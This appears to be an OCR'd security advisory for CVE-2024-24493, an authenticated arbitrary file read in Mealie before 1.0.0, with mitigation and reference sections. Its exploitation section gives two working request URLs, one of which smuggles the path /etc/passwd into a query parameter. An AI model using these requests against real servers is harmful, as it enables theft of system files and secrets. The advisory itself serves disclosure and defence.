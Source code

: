 ```yaml
---
title: "Authenticated Arbitrary File Read in Mealie"
date: 2024-01-29
tags:
	- "arbitrary file read"
advisory: true
origin:
cves: 
	- CVE-2024-24493
ghsas:
---
```

# Description
Mealie before version 1.0.0 is vulnerable to authenticated arbitrary file read due to improper validation of the path in the `/api/recipes/bulk-actions/export/download` and `/api/utils/download` endpoints.

# Explotation
1. Fetch a valid JWT token from the URL:
`http://Mealie-domain/api/recipes/bulk-actions/export/download?p
ath=%2Fetc%2Fpasswd`
2. Download the file using the JWT token provided:
`http://Mealie-domain/api/utils/download?token=<TOKEN>`

# Impact
Any authenticated user can generate an API token and thus access the API. Using this
vulnerability, an authenticated attacker can read arbitrary files from the server leading to
different impacts from confidentiality to RCE via secrets/keys exfiltration.

# Mitigation
Upgrade Mealie to version `1.0.0` or later

# References
* [Pull request](https://github.com/mealie-recipes/mealie/pull/2867)